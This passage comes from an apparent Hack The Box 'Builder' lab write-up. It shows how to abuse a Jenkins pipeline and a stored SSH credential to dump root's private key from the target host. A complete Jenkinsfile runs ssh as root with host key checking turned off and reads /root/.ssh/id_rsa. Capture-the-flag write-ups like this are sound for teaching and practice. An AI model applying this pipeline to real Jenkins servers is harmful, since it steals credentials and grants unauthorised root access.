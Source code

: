 ![image](https://github.com/3v401/HackTheBox/blob/main/Builder/pics/pic27.png?raw=true)

Create a pipeline from Dashboard. Now we must ask ourselves how must be the pipeline to retrieve the ssh PRIVATE KEY. A good way to start is looking on the internet for "jenskins example pipeline ssh" and access the [stack overflow post](https://stackoverflow.com/questions/44237417/how-do-i-use-ssh-in-a-jenkins-pipeline).

We must modify this pipeline at our needs. We must know that the URL shows an older declarative Jenkins pipeline syntax. We mus update the pipeline in a more modern way:

1. We use now declarative syntax to make it easier to read and understand the pipeline structure
2. Structured `stages` and `steps` defined clearly within the pipeline to break the pipeline in distinct parts
3. Define `agent any` to run the pipeline on any available agent. It ensures the pipeline ca nrun on any node that has the necessary configuration.
4. `script` block inserts the script we want to inject
5. `sshagent` block specifies the credentials for the ssh connection. `credentials` parameter takes an array of credentials.
6. `ssh command` connects to the remote host and prints `id_rsa` file. The `-o StrictHostKeyChecking=no` option is used to bypass host key checking.

```
pipeline {
    agent any
    stages {
        stage('SSH') {
            steps {
                script {
                    sshagent(credentials: ['1']) {
                        sh 'ssh -o StrictHostKeyChecking=no root@10.10.11.10 "cat /root/.ssh/id_rsa"'
                    }
                }
            }
        }
    }
}
```

We can't know the exact location of the PRIVATE KEY. Doing several attempts of this pipeline is the best methodology to find it. I share the final location of the PRIVATE KEY in the pipeline above. I first searched for the `/root/` folder

![image](https://github.com/3v401/HackTheBox/blob/main/Builder/pics/pic28-1.png?raw=true)

and later for the `.ssh` folder with its content. We found that the PRIVATE KEY was lovated in `id_rsa`.

![image](https://github.com/3v401/HackTheBox/blob/main/Builder/pics/pic28-2.png?raw=true)

![image](https://github.com/3v401/HackTheBox/blob/main/Builder/pics/pic28.png?raw=true)


Save and click on "Build Now". 
